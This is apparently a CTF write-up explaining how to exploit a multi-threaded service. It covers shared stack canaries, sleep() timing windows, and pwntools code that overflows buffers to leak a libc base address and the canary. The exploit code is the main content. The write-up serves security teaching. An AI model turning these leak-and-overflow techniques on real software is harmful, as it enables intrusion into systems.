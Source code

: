 ### 1. Multi-threaded Canary Sharing
- All threads within a process share the same stack canary value
- A canary leaked from one thread can be reused in another thread

### 2. Timing Attack with sleep()
- The `sleep()` function delays thread termination
- Canary validation occurs only when the function returns
- Long sleep times provide attack windows for other threads

### 3. Race Condition Exploitation  
- Main thread continues processing commands while worker threads sleep
- Multiple threads can be exploited simultaneously
- Enables staged attacks across different threads

## Exploitation Process

The attack consists of three stages executed across different threads:

### Stage 1: Libc Address Leak

![CHONK Command Output](https://github.com/user-attachments/assets/197267d8-509a-4b60-b8cf-9259dc032f82)

```python
# Stage 1: Leak libc base address
p.sendline(b'CHUNKS 3')
payload = b"CHUNK 0 1 " + b'a' * 0x3f  # Overflow to leak libc address
p.sendline(payload)
p.recvuntil(b'aaaaa\n')
leak = u64(p.recv(6) + b'\x00\x00')
libc_base = leak + 0x940 + 0x3000  # Remote offset adjustment
print(f"libc_base: {hex(libc_base)}")
```

**Analysis:**
- 63-byte overflow reaches stack data containing libc addresses
- The offset difference between local and remote environments is 0x3000
- Successfully leaks libc base for ASLR bypass

### Stage 2: Stack Canary Leak

```python
# Stage 2: Leak stack canary
payload = b"CHUNK 100 1 " + b'b' * 0x48  # Overflow to corrupt canary
p.sendline(payload)
p.recvuntil(b'b\n')
canary = u64(b'\x00' + p.recv(7))
print(f"canary: {hex(canary)}")
```

**Analysis:**
- 72-byte overflow corrupts the first byte of the canary
- `sleep(100)` provides 100 seconds for subsequent attacks
- `puts()` outputs the corrupted canary, revealing the original 7 bytes
- Stack canary typically starts with a null byte for string protection
